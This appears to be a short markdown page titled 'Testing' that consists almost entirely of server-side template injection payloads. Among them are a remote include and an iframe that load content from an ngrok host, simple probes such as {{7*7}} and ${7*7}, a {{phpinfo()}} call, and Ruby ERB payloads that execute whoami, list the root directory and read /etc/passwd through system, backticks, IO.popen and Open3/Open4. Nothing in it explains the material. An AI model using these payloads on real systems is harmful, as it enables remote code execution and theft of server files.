 ```yaml
---
title: Testing
---
```


```
{% include_remote https://c827-198-167-192-61.eu.ngrok.io/include_remote %}
```

<iframe src="https://c827-198-167-192-61.eu.ngrok.io/iframe.html"></iframe>


```
200,{{phpinfo()}}
```


```
200,{{7*7}}
```

```
<%= 7*7 %>
```

```
${7*7}
```

```
<%= system("whoami") %> #Execute code
<%= Dir.entries('/') %> #List folder
<%= File.open('/etc/passwd').read %> #Read file
<%= system('cat /etc/passwd') %>
<%= `ls /` %>
<%= IO.popen('ls /').readlines()  %>
<% require 'open3' %><% @a,@b,@c,@d=Open3.popen3('whoami') %><%= @b.readline()%>
<% require 'open4' %><% @a,@b,@c,@d=Open4.popen4('whoami') %><%= @c.readline()%>
```
